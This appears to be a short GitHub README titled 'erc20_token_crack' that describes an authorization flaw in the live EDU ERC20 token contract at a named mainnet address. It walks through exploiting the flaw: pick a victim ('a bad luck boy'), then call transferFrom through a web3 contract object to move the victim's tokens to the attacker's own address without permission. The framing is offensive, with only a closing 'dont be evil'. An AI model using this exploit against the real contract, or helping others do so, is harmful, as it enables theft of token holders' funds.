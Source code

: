 # erc20_token_crack
a doc for erc20 token crack

# 0x00
some days ago, i got a erc20 contract security problom in EDU

- contract address: 0xa0872eE815B8dd0F6937386Fd77134720d953581
- explorer: https://etherscan.io/address/0xa0872eE815B8dd0F6937386Fd77134720d953581

in this case, we can tranfer anyone's EDU without permission.
this is the bug look:

[![CfRvQ0.md.jpg](https://s1.ax1x.com/2018/05/26/CfRvQ0.md.jpg)](https://imgchr.com/i/CfRvQ0)

eth picture is from ..., i forgot. Please commit a issue if you know where the picture from, thank you

So, lets bigin the game

# 0x01
what we need first

- a eth server with a geth or web3 client that we can send transaction
- a eth address

＃ 0x02
seek a bad luck boy

# 0x03

  # add abi
  abi = {edu_abi} # replace with edu abi
  edu_contract = web3.eth.contract(abi).at('0xa0872eE815B8dd0F6937386Fd77134720d953581')
  edu_contract.transferFrom('the bad luck boy', eth.coinbase, 10, {'from': eth.coinbase})
  
# 0x04
 here we finished, at last, dont be evil :)



